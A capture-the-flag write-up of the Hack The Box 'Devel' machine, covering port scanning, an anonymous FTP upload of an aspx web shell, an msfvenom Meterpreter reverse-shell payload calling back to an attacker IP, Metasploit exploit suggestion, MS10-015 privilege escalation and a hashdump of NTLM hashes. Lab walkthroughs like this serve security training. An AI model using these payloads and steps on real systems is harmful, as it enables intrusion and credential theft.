



# Devel

## Machine Info


## Recon

### port

```console
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods:
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 Professional or Windows 8 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### FTP

```console
└─╼$ ftp 10.129.156.66
Connected to 10.129.156.66.
220 Microsoft FTP Service
Name (10.129.156.66:qwe): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmd.aspx
local: cmd.aspx remote: cmd.aspx
229 Entering Extended Passive Mode (|||49174|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************|  1442        2.20 MiB/s    --:-- ETA
226 Transfer complete.
1442 bytes sent in 00:01 (1.38 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||49175|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
02-11-24  11:53AM                 1442 cmd.aspx
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> exit
221 Goodbye.
```

FTP service allows anonymous user to login and upload files. Besides, after checking the content of 80 prt website, the content of ftp service is quit similar to web service => the website's home directory is under ftp service.

## Foothold

### FTP: shell upload

**POC**: upload aspx shell



**Exploit**: upload aspx reverse shell

```console
└─╼$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=1234 -f aspx -a x86 --platform windows -o revshell.aspx
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2848 bytes
Saved as: revshell.aspx

└─╼$ ftp 10.129.156.66
Connected to 10.129.156.66.
220 Microsoft FTP Service
Name (10.129.156.66:qwe): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put revshell.aspx
local: revshell.aspx remote: revshell.aspx
229 Entering Extended Passive Mode (|||49177|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************|  2888        3.93 MiB/s    --:-- ETA
226 Transfer complete.
2888 bytes sent in 00:01 (2.52 KiB/s)
ftp> exit
221 Goodbye.
```



## Privilege Escalation

Systeminfo enum:

- Windows 7 Enterprise
- x86 bit

```console
c:\Users\Public>systeminfo
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31
System Boot Time:          11/2/2024, 11:13:36
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.470 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.549 MB
Virtual Memory: In Use:    592 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.156.66
                                 [02]: fe80::9aa:f590:9390:b9c8
                                 [03]: dead:beef::7481:b6c8:2291:b0e6
                                 [04]: dead:beef::9aa:f590:9390:b9c8
```

Use metasploit post local exploit suggester to do privilege escalation enumeration:

- `post/multi/recon/local_exploit_suggester`
- [WindowsExploits/MS10-015](https://github.com/abatchy17/WindowsExploits/tree/master/MS10-015 - KiTrap0D)

```console
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.156.66 - Collecting local exploits for x86/windows...
[*] 10.129.156.66 - 190 exploit checks are being tried...
[+] 10.129.156.66 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.129.156.66 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.129.156.66 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.129.156.66 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.129.156.66 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.129.156.66 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.156.66 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.156.66 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.129.156.66 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.156.66 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.129.156.66 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.129.156.66 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.129.156.66 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.129.156.66 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.129.156.66 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.129.156.66 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 3   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 9   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 16  exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.
...
 41  exploit/windows/local/webexec                                  No                       The check raised an exception.

[*] Post module execution completed
```

**Exploit**:



Hashdump and flag discovery:

```console
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a450f6000be7df50ee304d0a838d638f:::
babis:1000:aad3b435b51404eeaad3b435b51404ee:a1133ec0f7779e215acc8a36922acf57:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

----------------------------------------------------------------------------------

c:\Users\Public>dir /s /b C:\user.txt 2>nul
C:\Documents and Settings\babis\Desktop\user.txt
C:\Users\babis\Desktop\user.txt
c:\Users\Public>dir /s /b C:\root.txt 2>nul
C:\Documents and Settings\Administrator\Desktop\root.txt
C:\Users\Administrator\Desktop\root.txt
```

## Exploit Chain

port scan -> ftp & http -> ftp & http content recon -> upload shell using ftp -> APPPOOL\Web shell -> post local priv esca recon -> ms10_015_kittrap0d -> System shell
